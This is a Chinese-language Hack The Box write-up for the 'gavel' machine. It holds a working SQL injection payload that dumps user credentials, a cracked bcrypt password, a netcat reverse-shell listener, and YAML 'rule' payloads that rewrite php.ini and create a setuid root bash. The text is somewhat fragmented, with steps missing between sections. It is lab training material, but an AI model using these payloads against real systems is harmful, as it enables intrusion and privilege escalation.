

┌──(kali㉿kali)-[~/HTB/gavel] └─$ sudo nmap -p- --min-rate 10000 10.10.11.97 -oA ports Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-12 19:13 CST Nmap scan report for gavel.htb (10.10.11.97) Host is up (0.092s latency). Not shown: 65533 closed tcp ports (reset) PORT STATE SERVICE 22/tcp open ssh 80/tcp open http
Nmap done: 1 IP address (1 host up) scanned in 11.75 seconds
┌──(kali㉿kali)-[~/HTB/gavel] └─$ dirsearch -u "http://gavel.htb" /usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html from pkg_resources import DistributionNotFound, VersionConflict
sort=\?;-- -%00&user_id=x` from (select group_concat(username,0x3a,password)%20 as `'x` from users) y;-- -
这个 payload 里面有一些细节，第一个就是为什么写成 `'x` ，前面提到的文章里面也有写，是因为 PDO 插入语句时会用单引号引起来，所以实际上 x 的前面会有一个单引号，所以我们要查询的列名实际上是 'x ，所以要写成这个样子；第二点是为什么最后要加一个 y ，这是因为 mysql 的语句要求派生的表必须要有 别名，这个 y 就是给你查询后创建的表起了个名字，如果不加会报错。
然后我们就收到了返回的账号和密码：

用 john 去破解这个密码哈希，破解出来是 midnight1 ：
1 2 3 4 5 6 7 8 9 10 11
┌──(kali㉿kali)-[~/HTB/gavel] └─$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt Using default input encoding: UTF-8 Loaded 1 password hash (bcrypt [Blowfish 32/64 X2]) Cost 1 (iteration count) is 1024 for all loaded hashes Will run 2 OpenMP threads Press 'q' or Ctrl-C to abort, almost any other key for status midnight1 (auctioneer) 1g 0:00:00:39 DONE (2026-01-12 20:42) 0.02554g/s 77.85p/s 77.85c/s 77.85C/s gabriel1..dalejr8 Use the "--show" option to display all of the cracked passwords reliably Session completed.
┌──(kali㉿kali)-[~] └─$ nc -nvlp 1234 Listening on 0.0.0.0 1234 Connection received on 10.10.11.97 40298 bash: cannot set terminal process group (1018): Inappropriate ioctl for device bash: no job control in this shell www-data@gavel:/var/www/html/gavel/includes$ whoami whoami www-data www-data@gavel:/var/www/html/gavel/includes$
auctioneer@gavel:/opt/gavel$ cat sample.yaml cat sample.yaml --- item: name: "Dragon's Feathered Hat" description: "A flamboyant hat rumored to make dragons jealous." image: "https://example.com/dragon_hat.png" price: 10000 rule_msg: "Your bid must be at least 20% higher than the previous bid and sado isn't allowed to buy this item." rule: "return ($current_bid >= $previous_bid * 1.2) && ($bidder != 'sado');"
看上去还是有一个 rule 字段，好像跟刚才在 web 渗透时看到的一样。
/opt/gavel 目录下的 gaveld 文件可以拿出来进行分析，用 IDA 进行查看，发现里面的一些字符串和使用方法等跟 gavel-util 基本上一样，两个应该是一样的文件。
name:Hacker!! description:hacker!!! image:"abc.png" price:1 rule_msg:"Your bid must be at least 20% higher than the previous bid and sado isn't allowed to buy this item." rule:file_put_contents('/opt/gavel/.config/php/php.ini',"engine=On\ndisplay_errors=On\nopen_basedir=\ndisable_functions=");returnfalse;
然后看到输出为 Item submitted for review in next auction ，似乎是提交成功了。
auctioneer@gavel:~$ /usr/local/bin/gavel-util submit shell.yaml /usr/local/bin/gavel-util submit shell.yaml Item submitted for review in next auction
其中 shell.yaml 的内容如下：
1 2 3 4 5 6
name:Hacker!! description:hacker!!! image:"abc.png" price:1 rule_msg:"Your bid must be at least 20% higher than the previous bid and sado isn't allowed to buy this item." rule:system('cp/bin/bash/home/auctioneer/bash;chmod+s/home/auctioneer/bash');returnfalse;
接着在用户家目录下就看到多了 bash 文件，用 bash -p 提权：
1 2 3 4 5 6 7 8 9
auctioneer@gavel:~$ ls ls abc.yaml abc.yaml.1 bash shell.yaml user.txt auctioneer@gavel:~$ ./bash -p ./bash -p bash-5.1# whoami whoami root bash-5.1#